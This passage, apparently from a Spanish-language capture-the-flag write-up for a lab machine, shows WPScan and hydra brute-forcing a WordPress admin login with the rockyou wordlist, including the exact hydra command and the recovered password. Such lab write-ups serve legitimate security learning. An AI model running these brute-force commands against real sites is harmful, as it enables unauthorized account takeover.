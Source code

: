 ```bash
[!] Valid Combinations Found:
 | Username: admin, Password: spongebob

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
...
...
```

| Parámetros | Descripción |
|--------------------------|
| *--password-attack* | Para elegir un ataque suministrado en lugar de determinar uno automáticamente. Puede ser `wp-login, xmlrpc, xmlrpc-multicall`|
| *-U*	     | Indica una lista de usuarios o un usuario. |
| *-P*	     | Indica un wordlist de contraseñas. |

<br>

Excelente, obtuvimos la contraseña del **usuario admin** y parece que esta vez, sí pudo identificar el plugin que descubrimos antes.

Ahora, utilicemos **hydra** para aplicar la fuerza bruta:
```bash
hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt thefirstavenger.thl http-post-form "/wp1/wp-login.php:log=^USER^&pwd=^PASS^:S=302"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-11 13:27:59
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://thefirstavenger.thl:80/wp1/wp-login.php:log=^USER^&pwd=^PASS^:S=302
[80][http-post-form] host: thefirstavenger.thl   login: admin   password: spongebob
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-11 13:28:07
```
Muy bien, también pudo encontrar la contraseña.

Vamos a probarla:

<p align="center">